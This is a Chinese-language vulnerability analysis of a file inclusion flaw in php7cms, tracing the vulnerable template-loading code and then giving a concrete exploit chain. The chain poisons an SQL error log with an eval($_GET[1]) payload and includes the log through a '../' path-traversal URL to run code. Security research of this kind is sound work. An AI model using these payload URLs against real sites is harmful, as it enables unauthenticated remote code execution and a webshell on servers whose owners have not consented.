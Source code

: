 # php7cms 文件包含漏洞

## 利用思路
* 前台未授权文件包含
* 利用SQL注入报错插入payload到日志文件
* 包含该日志文件得到webshell

## 漏洞分析
在`php7cms/Core/Controllers/Api/Api.php:143`

```php
    public function template() {
        ob_start();
        \Phpcmf\Service::V()->display(dr_safe_replace(\Phpcmf\Service::L('Input')->get('name')));
        $html = ob_get_contents();
        ob_clean();
        $this->_jsonp(1, $html);
    }
```

该函数动态调用模板的函数，是可以通过构造url来访问到的。

该函数接收一个参数name。并将该值带入到了display函数中，跟踪该函数。

`php7cms/Fcms/Core/View.php:137`

```php
 public function display($_name, $_dir = '') {
        extract($this->_options, EXTR_PREFIX_SAME, 'data');
        $this->_filename = $_name;
        !IS_DEV && $this->_options = null;
        // 加载编译后的缓存文件
        $this->_disp_dir = $_dir;
        $_view_file = $this->get_file_name($_name);
        $_view_name = str_replace([TPLPATH, FCPATH, APPSPATH], '', $_view_file);
        \Config\Services::timer()->start($_view_name);
        include $this->load_view_file($_view_file);
        \Config\Services::timer()->stop($_view_name);
        // 消毁变量
        $this->_include_file = null;
    }
```

这里的$_name被带入到了`get_file_name`函数中。跟踪该函数:

```php
public function get_file_name($file, $dir = null, $include = FALSE) {
        $dir = $dir ? $dir : $this->_disp_dir;
        if (IS_ADMIN || $dir == 'admin' || $this->_is_admin) {
            // 后台操作时，不需要加载风格目录，如果文件不存在可以尝试调用主项目模板
            if (APP_DIR && is_file(MYPATH.'View/'.APP_DIR.'/'.$file)) {
                return MYPATH.'View/'.APP_DIR.'/'.$file;
            } elseif (!APP_DIR && is_file(MYPATH.'View/'.$file)) {
                return MYPATH.'View/'.$file;
            } elseif (is_file($this->_dir.$file)) {
                return $this->_dir.$file; // 调用当前后台的模板
            } elseif (is_file($this->_aroot.$file)) {
                return $this->_aroot.$file; // 当前项目目录模板不存在时调用主项目的
            } elseif ($dir != 'admin' && is_file(APPSPATH.ucfirst($dir).'/Views/'.$file)) {
                return APPSPATH.ucfirst($dir).'/Views/'.$file; // 指定模块时调用模块下的文件
            }
            $error = $this->_dir.$file;
        } elseif (IS_MEMBER || $dir == 'member') {
            // 会员操作时，需要加载风格目录，如果文件不存在可以尝试调用主项目模板
            if ($dir === '/' && is_file($this->_root.$file)) {
                return $this->_root.$file;
            } elseif (is_file($this->_dir.$file)) {
                // 调用当前的会员模块目录
                return $this->_dir.$file;
            } elseif (is_file($this->_mroot.$file)) {
                // 调用默认的会员模块目录
                return $this->_mroot.$file;
            } elseif (is_file($this->_root.$file)) {
                // 调用网站主站模块目录
                return $this->_root.$file;
            }
            $error = $dir === '/' ? $this->_root.$file : $this->_dir.$file;
        } elseif ($file == 'go') {
            // 转向字段模板
            return $this->_aroot.'go.html';
        } else {
            if ($dir === '/' && is_file($this->_root.$file)) {
                // 强制主目录
                return $this->_root.$file;
            } else if (@is_file($this->_dir.$file)) {
                // 调用本目录
                return $this->_dir.$file;
            } else if (@is_file($this->_root.$file)) {
                // 再次调用主程序下的文件
                return $this->_root.$file;
            }
            $error = $dir === '/' ? $this->_root.$file : $this->_dir.$file;
        }
        // 如果移动端模板不存在就调用主网站风格
        if (IS_MOBILE && is_file(str_replace('/mobile/', '/pc/', $error))) {
            return str_replace('/mobile/', '/pc/', $error);
        } elseif (IS_MOBILE && is_file(str_replace('/mobile/', '/pc/', $this->_root.$file))) {
            return str_replace('/mobile/', '/pc/', $this->_root.$file);
        } elseif ($file == 'msg.html' && is_file(TPLPATH.'pc/default/home/msg.html')) {
            return TPLPATH.'pc/default/home/msg.html';
        }
        exit('模板文件 ('.str_replace(TPLPATH, '/', $error).') 不存在');
    }
```

该函数是用来判断模板文件是否存在。由于文件名可控。导致我们可以通过../这样来跳转目录来使用其他我们可控的文件。

然后判断完毕文件存在后，回到上文。

`include $this->load_view_file($_view_file);`
这里将路径带入到了load_view_file函数中，并将返回结果include。看一下这个load_view_file函数:

```php
  public function load_view_file($name) {
        $cache_file = $this->_cache.str_replace(array(WEBPATH, '/', '\\', DIRECTORY_SEPARATOR), array('', '_', '_', '_'), $name).(IS_MOBILE ? '.mobile.' : '').'.cache.php';
        // 当缓存文件不存在时或者缓存文件创建时间少于了模板文件时,再重新生成缓存文件
        if (!is_file($cache_file) || (is_file($cache_file) && is_file($name) && filemtime($cache_file) < filemtime($name))) {
            $content = $this->handle_view_file(file_get_contents($name));
            @file_put_contents($cache_file, $content, LOCK_EX) === FALSE && show_error('请将模板缓存目录（/cache/template/）权限设为777', 404, '无写入权限');
        }
        return $cache_file;
    }
```

这里会将我们传入的文件路径的文件内容写入到缓存文件中，并返回该缓存文件的文件路径。

文件包含的点在这里，那么如何找到可控内容的文件就比较重要的。

这里我使用该网站自带的错误日志来进行包含。

首先我们访问：`http://localhost/index.php?s=news&c=search&keyword=%E5%9B%BA%E5%AE%9A&order=2%3C?=/*&sss=*/e val($_GET[1]);`

这样就会生成一个错误日志`cache/error/log-2018-10-20.php`

命名规则就是log-年-月-日.php

看一下这个文件的内容：

```php
<?php defined('B ASEPATH') OR exit('No direct s cript access allowed'); ?>
ERROR - 2018-10-20 16:53:04 --> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '?=/* LIMIT 0,10' at line 1<br>SELECT `dr_1_news`.`thumb`,`dr_1_news`.`url`,`dr_1_news`.`title`,`dr_1_news`.`des cription`,`dr_1_news`.`keywords`,`dr_1_news`.`updatetime`,`dr_1_news`.`hits`,`dr_1_news`.`comments` FROM `dr_1_news` WHERE (`dr_1_news`.`id` IN(SELECT `cid` FROM `dr_1_news_search_index` WHERE `id`="ce0f2ef8f63c9afa7453492781553547")) AND `dr_1_news`.`status` = 9 ORDER BY 2<?=/* LIMIT 0,10<br>http://localhost/index.php?s=news&c=search&keyword=%E5%9B%BA%E5%AE%9A&order=2%3C?=/*&sss=*/e val($_GET[1]);
```

因为程序对<?php这种有过滤，所以这里采用短标签+注释符来执行代码。

然后我们将这个日志文件包含进来。

访问如下url。

`http://10.3.0.22/index.php?s=api&c=api&m=template&name=../../../../cache/error/log-2020-09-30.php&1=phpinfo();`

即可执行phpinfo

![](resource/php7cms文件包含漏洞/media/1.png)